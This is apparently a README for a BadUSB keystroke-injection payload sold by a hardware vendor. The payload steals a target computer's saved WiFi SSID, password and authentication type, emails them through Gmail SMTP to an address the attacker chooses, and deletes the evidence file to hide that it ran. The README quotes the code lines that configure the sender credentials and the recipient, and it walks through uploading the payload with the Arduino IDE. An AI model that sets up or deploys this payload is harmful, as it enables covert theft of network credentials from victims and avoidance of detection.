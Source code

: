 <h1>README!!</h1>
<h2>WIFI Profile capture and Email</h2>


<i>This payload Steals a targets WIFI Profile. I.E. SSID, Passowrd and Authentication type;
Saves the profile to a text file named "Profile.txt" on the targets desktop;
Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.
After the WIFI Profile contents is emailed the Profile.txt file is delted and the payload leaves to trace on the targets machine of being executed.</i> 

<hr></hr>
**You must Edit the script to include a sender Gmails account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the fields for Senders and receivers email credentials. .
For Senders Email go to line 101 or find this line 

<code>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_EMAIL_PASSWORD')");</code>

Here you will need to change the text that says <code>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</code> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <code>CHANGE_THIS_TO_GMAIL_PASSWORD</code> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<code>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS@gmail.com'");</code> on line 109 and edit the text field labeled
<code>CHANGE_TO_GMAIL_ADDRESS</code> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Receivers Email. The line of code can be found on line 113 and looks like this: 

<code>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Receivers_Email_ADDRESS')");</code>

Simply change the text that says <code>CHANGE_TO_Receivers_Email_ADDRESS</code> to the email address you want to recieve the Target's WIFI Profile .



<hr></hr>

To upload the Payload simply plug in your TECHJUVI BadUSB and open the sketch / .ino in the Arduino IDE. Make sure your board is set to Arduino Leonardo and the proper port is selected then click <i> verify</i> then <i>upload</i>.

<b><u>You can purchase a TECHJUVI BadUSB for only $9.99 by <a href="https://www.techjuvi.com/product/badusb/">clicking here!</a></u></b>






